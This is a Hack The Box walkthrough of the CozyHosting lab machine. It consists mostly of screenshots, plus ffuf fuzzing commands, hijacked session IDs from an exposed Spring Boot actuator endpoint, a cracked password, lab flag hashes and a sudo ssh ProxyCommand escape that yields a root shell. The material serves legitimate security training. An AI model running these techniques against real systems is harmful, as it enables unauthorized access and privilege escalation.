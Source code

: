 ### 07-Feb-24-Wed

[CozyHosting](https://app.hackthebox.com/machines/CozyHosting)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9d28374e-abe1-408f-b2b9-c83c240aa5ec)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1f8c588d-5c72-4756-ba35-2d561735d978)

http://cozyhosting.htb/login

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ef15c62a-8d95-4fa9-be26-07291d5fa76f)

http://cozyhosting.htb/usersettings.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/980f8307-5273-4fa7-8069-d284293325bc)

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'http://cozyhosting.htb/FUZZ' -k
```

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt:FUZZ -u 'http://cozyhosting.htb/FUZZ' -k
```

http://cozyhosting.htb/actuator/sessions

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/250d89d3-d19d-4eba-8e00-c94f7d4f001e)

**Session Hijacking**

```
{"C6EC972292B31D51DD6CC2D76BA4E9BF":"kanderson"}
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/43bca6c5-09f9-4775-98aa-4e0c8252574e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/640c0a61-77ab-40f0-af4a-c91ca5053414)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fb1b81ea-bca0-4a96-8da7-f5efe74273b6)

```
{
"CDC486FA769DCE00A7422B65FD5A5618":"kanderson",
"1110D4636DBA4E9EC20507C98FC4CB7B":"UNAUTHORIZED",
"26DCF14037C4D76F6281F3F0851114AA":"UNAUTHORIZED",
"C923353C76138AE7A68DB1541BAE9FFE":"UNAUTHORIZED",
"370A276B6C913E8E8B9867D8E3FA9B36":"UNAUTHORIZED"
}
```

http://cozyhosting.htb/admin

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/37b097e9-6acd-4129-a5aa-aca637d72194)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/16d90589-9867-4e3e-8a65-5e9e04da0beb)

```
josh:manchesterunited
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c750b00c-3aae-43d4-98ec-4bc94d88b859)

```
78c1aed99b7896a1b606e9a85cdaf0da
```

https://gtfobins.github.io/gtfobins/ssh/#sudo

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c9b99ad3-4230-4901-9dcd-8e7d48949055)

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

```
ce3b2403535175f8700b72b600d131c8
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/21cbdc44-cb74-4796-8787-22b45b1a323f)
